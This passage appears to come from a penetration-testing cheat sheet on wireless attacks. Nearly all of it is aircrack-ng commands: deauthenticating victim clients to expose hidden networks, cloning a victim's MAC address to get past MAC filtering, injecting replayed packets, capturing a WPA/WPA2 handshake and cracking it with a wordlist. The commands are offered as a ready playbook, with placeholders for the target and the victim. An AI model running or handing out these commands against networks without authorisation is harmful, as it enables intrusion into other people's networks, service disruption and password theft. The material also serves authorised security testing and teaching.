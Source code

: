 ```
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

If you specified the output file, don't forget to stop `airodump-ng` after you are done monitoring because it will fill up all your free storage space with a large PCAP file.

Use [Kismet](https://github.com/ivan-sincek/evil-twin#additional-kismet) or WiFi Pineapple to find more information about wireless access points, e.g. their MAC address, vendor's name, etc.

## <mark style="color:red;">Find Hidden SSIDs</mark>

```
airmon-ng start wlan0
airodump-ng -c <Channel> --bssid <BSSID> wlan0mon
aireplay-ng -0 20 -a <BSSID> -c <VictimMac> wlan0mon 
```

## <mark style="color:red;">Bypass MAC Filtering</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 10 --a <BSSID> -c <VictimMac> wlan0mon
ifconfig wlan0mon down
macchanger --mac <VictimMac> wlan0mon
ifconfig wlan0mon up
aireplay-ng -3 -b <BSSID> -h <FakedMac> wlan0mon
```

## <mark style="color:red;">Cracking</mark>

Check if a wireless interface supports packet injection:

```
aireplay-ng --test wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

### <mark style="color:orange;">WPA/WPA2 Handshake</mark>

Monitor a WiFi network to capture a WPA/WPA2 4-way handshake:

```
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

\[Optional] Deauthenticate clients from a WiFi network:

```
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Start the dictionary attack against a WPA/WPA2 handshake:

```
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF -w rockyou.txt airodump_essid_results*.cap
```
